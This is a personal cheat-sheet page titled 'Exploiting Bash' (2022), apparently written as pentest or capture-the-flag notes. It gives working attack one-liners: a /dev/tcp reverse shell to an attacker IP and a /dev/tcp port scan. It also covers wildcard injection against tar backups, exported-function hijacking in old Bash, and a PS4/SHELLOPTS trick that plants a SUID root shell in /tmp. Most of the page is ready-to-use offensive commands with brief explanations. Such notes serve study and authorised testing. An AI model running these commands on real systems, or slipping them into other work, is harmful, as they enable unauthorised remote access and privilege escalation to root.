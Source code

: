 # Exploiting Bash

author:: Nathan Acks  
date:: 2022-07-11

## A Simple Reverse Shell

```bash
bash -li &> /dev/tcp/$ATTACKER_IP/$LISTENER_PORT 0>&1
```

Catch it with netcat or socat.

(That said, the fact that all of my file descriptors wind up pointing at /dev/tcp is a little mysterious to me. I *think* what's happening here is that /dev/tcp is bidirectional "out of the box" - incoming data comes out, just as outgoing data goes in - so binding all three "core" file descriptors to it does the right thing. That, and realize that the `X>&Y` construct means "bind file descriptor X to file descriptor Y", and `&>` is just short for `2>&1 >`, and `>` is just short for `1 >`. So really what's happening here is that we bind STDERR to STDOUT with and implicit `2>&1`, then bind STDOUT to /dev/tcp with an implicit `1 >`, then bind STDIN to /dev/tcp as well with `0>&1`.)

* [Reverse Shell Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

## Port Scanning

```bash
(: </dev/tcp/$IP_ADDRESS/$PORT) &>/dev/null && echo "OPEN" || echo "CLOSED"
```

## Using Wildcard Expansion to Pass Command Line Options

The wildcard expansion (`*`) in Bash scripts doesn't get pushed to the command, but is instead expanded in place. This means that files named like command-line switches *will be interpreted as command line switches*. This can be used, for example, to exploit sloppy tar-based backup scripts.

## Exploiting Functions in Bash < 4.2-048

In versions of Bash < 4.2-048, it's possible to export functions with the same form as absolute paths to files. These functions will then be executed instead of the fully-specified path *if* the calling application is relying on the current shell for helper execution.

For example:

```bash
function /path/to/executable { /bin/bash -p; }
export -f /path/to/executable
```

## Exploiting $PS4 in Bash < 4.4

When bash is in debugging mode (SHELLOPTS=xtrace), the $PS4 prompt is used to display debugging information.

*It would appear that this prompt somehow inherits the permissions of the executable being run.* This includes SUID/SGID permissions (at least for Bash < 4.4)!

If you have access to a SUID/SGID executable, this can be abused to create root shells:

```bash
env -i \
SHELLOPTS=xtrace \
PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' \
/path/to/suid/executable
```

Again, this only works *if* the calling application is relying on the current shell for helper execution.

## Avoid Dropping Privileges with SUID Bash

Bash will drop privileges by default if SUID. To avoid this, simply supply the `-p` flag. (Not sure how useful this is beyond CTFs...)
